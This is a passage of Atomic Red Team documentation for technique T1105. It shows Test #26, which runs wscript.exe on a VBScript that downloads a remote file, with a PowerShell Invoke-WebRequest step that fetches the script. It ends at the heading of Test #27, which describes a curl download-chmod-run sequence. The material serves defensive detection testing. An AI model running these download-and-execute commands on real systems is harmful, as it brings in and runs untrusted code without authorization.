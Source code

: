 



<br/>
<br/>

## Atomic Test #26 - Download a file using wscript
Use wscript to run a local VisualBasic file to download a remote file

**Supported Platforms:** Windows


**auto_generated_guid:** 97116a3f-efac-4b26-8336-b9cb18c45188





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| vbscript_file | Full path to the VisualBasic downloading the file | string | PathToAtomicsFolder&#92;T1105&#92;src&#92;T1105-download-file.vbs|


#### Attack Commands: Run with `command_prompt`! 


```cmd
wscript.exe "#{vbscript_file}"
```

#### Cleanup Commands:
```cmd
del Atomic-License.txt >nul 2>&1
```



#### Dependencies:  Run with `powershell`!
##### Description: #{vbscript_file} must be exist on system.
##### Check Prereq Commands:
```powershell
if (Test-Path "#{vbscript_file}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{vbscript_file}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1105/src/T1105-download-file.vbs" -OutFile "#{vbscript_file}"
```




<br/>
<br/>

## Atomic Test #27 - Linux Download File and Run
Utilize linux Curl to download a remote file, chmod +x it and run it.

